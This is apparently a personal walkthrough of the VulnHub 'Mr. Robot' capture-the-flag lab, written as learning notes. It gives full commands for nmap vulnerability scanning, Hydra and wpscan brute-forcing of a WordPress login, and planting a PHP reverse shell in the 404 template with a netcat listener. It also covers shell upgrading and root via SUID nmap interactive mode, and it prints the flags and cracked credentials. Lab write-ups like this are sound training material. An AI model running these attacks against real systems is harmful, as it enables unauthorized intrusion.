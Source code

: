 # Mr. Robot
**Completed 01/22/2023**

https://www.vulnhub.com/entry/mr-robot-1,151/

**Flags:**
1. /robots/key-1-of-3.txt: 073403c8a58a1f80d943455fb30724b9
2. /home/robot/key-2-of-3.txt: 822c73956184f694993bede3eb39f959
3. /root/key-3-of-3.txt: 04787ddef27c3dee1ee161b21670b4e4

# **Flag 1**
## nmap
- ran `nmap -sS --script vuln 10.10.1.102` to check for open ports and vulns
	- Found port 22 closed, 80 and 443 open
	- vuln script enumerated hidden dirs, led me to `/robots/`
	- found `key-1-of-3.txt` and navigated to URL to view it

## fsocity.dic 
- downloaded `fsocity.dic` which was a massive wordlist with repeated words
	- used `cat fsocity.dic | sort -u > filtered.txt` to sort the list and filter it down to unique values

# **Flag 2**
## /wp-login.php Enumeration
### Username
- other writeup obtained the POST request (wireshark?) from when they tried to login, showing that the form took the parameters `log` and `pwd`
- they then use Hydra to bruteforce the username with the command: `hydra -vV -L fsocity.dic.uniq -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'`
	- `-vV`: verbose
	- `-L fsocity.dic.uniq`: use the filtered wordliFst (filtered.txt on my box)
	- `-p wedontcare`: password doesn't matter here
	- `http-post-form`: what it is we're targeting, in this case an HTTP POST form
	- `'/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'`: telling hydra where to insert the username from the list and the irrelevant password in the POST, and indicating that it is a failed attempt if the returned data contains "Invalid username"
- Once this had run, the username `elliot` was found

### Password
- wpscan could be used to search for the password using the same wordlist (filtered.txt)
	- Ran `wpscan -url http://10.10.1.102/wp-login.php -U elliot -P filtered.txt` which returned the password of `ER28-0652`

## PHP Reverse Shell
### Editing a PHP page
- Looked around the admin panel, found Editor page under Appearance
	- First page that could be edited was the 404 page, which runs a php script
	- used `locate php-re` to find a PHP Reverse Shell on the Kali install
	- edited IP value in the template to my own, set port to 443
	- copied the entire script into the 404 page editor and saved

### Using the reverse shell
- ran `netcat -lnvp 443` to listen for the reverse shell
	- triggered a 404 page to gain access
	- found password MD5 hash `robot:c3fcd3d76192e4007dfb496cca67e13b` and `key-2-of-3.txt` in `/home/robot/`
	- permission denied for key file
	- used [crackstation](https://crackstation.net) to crack hash for result of `abcdefghijklmnopqrstuvwxyz`
	
- Back in the reverse shell
	- tried `su robot` to login to that user account, returned an error saying I had to run that command from a terminal
	- ran `python -c 'import pty;pty.spawn("/bin/bash")` to get into a bash terminal
	- could then use `su robot` to login to robot account and open `key-2-of-3.txt`

# Flag 3
## Privilege Escalation
- Use `find / -perm +6000 | grep '/bin/'` to locate binaries with the su ID bit set, which may be used for privilege escalation.
	- [gtfobins](https://gtfobins.github.io) provides instructions for privilege escalation for binaries like this.
- used `nmap --version` to find that it was version 3.81, which has a privilege escalation vulnerability
	- simply run `nmap --interactive`, then use `!sh` to start a shell within the nmap interactive mode
	- run `id` or `whoami` to see that there are now root privileges
	- navigate to `/root/` to view the final flag file, `key-3-of-3.txt`


# **Lessons Learned**
- Literally this entire CTF
	- First one I've ever done
	
- Learned about using the vuln script with nmap for some hidden directory enumeration
- Learned a way of bruteforcing usernames on HTTP POST forms with hydra
- Learned how to bruteforce passwords on wordpress pages using wpscan
- Learned how to inject a PHP Reverse Shell anywhere that php runs and the code can be edited at an admin level
- Discovered [crackstation](https://crackstation.net) for password hash cracking
- Learned how you can use a simple python command to get a bash shell from a basic reverse shell
- Learned about the nmap 3.81 privilege escalation vulnerability and how to use it (`!sh` while in interactive mode)